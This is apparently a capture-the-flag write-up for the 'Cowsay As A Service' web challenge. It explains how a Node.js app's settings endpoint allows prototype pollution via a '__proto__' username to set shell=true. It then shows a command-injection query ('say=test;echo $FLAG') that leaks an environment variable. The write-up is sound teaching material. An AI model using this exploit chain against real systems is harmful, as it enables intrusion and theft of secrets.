

# Cowsay As A Service

## Description

Enjoy your cowsay life with our Cowsay as a Service!\
You can spawn your private instance from https://cowsay-as-a-service.chal.acsc.asia/.\
\
Notice: Please do not spawn too many instances since our server resource is limited.\
You can check the source code and run it in your local machine before do that.\
Each instances are alive only for 5 minutes.\
But don't worry! You can spawn again even if your instance expired.\


`https://cowsay-as-a-service.chal.acsc.asia/`


Challenge Files


## Solution

The `/usr/games/cowsay` game is run from `child_process.spawnSync`.

```javascript
router.get('/cowsay', (ctx, next) => {
  const setting = settings[ctx.state.user];
  const color = setting?.color || '#000000';

  let cowsay = '';
  if (ctx.request.query.say) {
    const result = child_process.spawnSync('/usr/games/cowsay', [ctx.request.query.say], { timeout: 500 });
    cowsay = result.stdout.toString();
  }
```

The settings endpoint sets the settings for `ctx.state.user`, which is also equal to the `username` cookie. The setting name is also user-controlled.

```javascript
router.post('/setting/:name', (ctx, next) => {
  if (!settings[ctx.state.user]) {
    settings[ctx.state.user] = {};
  }
  const setting = settings[ctx.state.user];
  setting[ctx.params.name] = ctx.request.body.value;
  ctx.redirect('/cowsay');
});
```

This allows us to perform prototype pollution. I used `__proto__` as the username, which will set settings for `{}.__proto__`. Then, we can use `shell` as the setting name to set `shell=true` for all objects.

```http
POST /setting/shell HTTP/1.1
Host: localhost:3000

...

{
    "value": true
}
```

This makes the command run within a shell, allowing us to perform command injection:

`http://cowsay-nodes.chal.acsc.asia:64280/cowsay?say=test;echo%20$FLAG`

This will output the `FLAG` environment variable.



`ACSC{(oo)<Moooooooo_B09DRWWCSX!}`
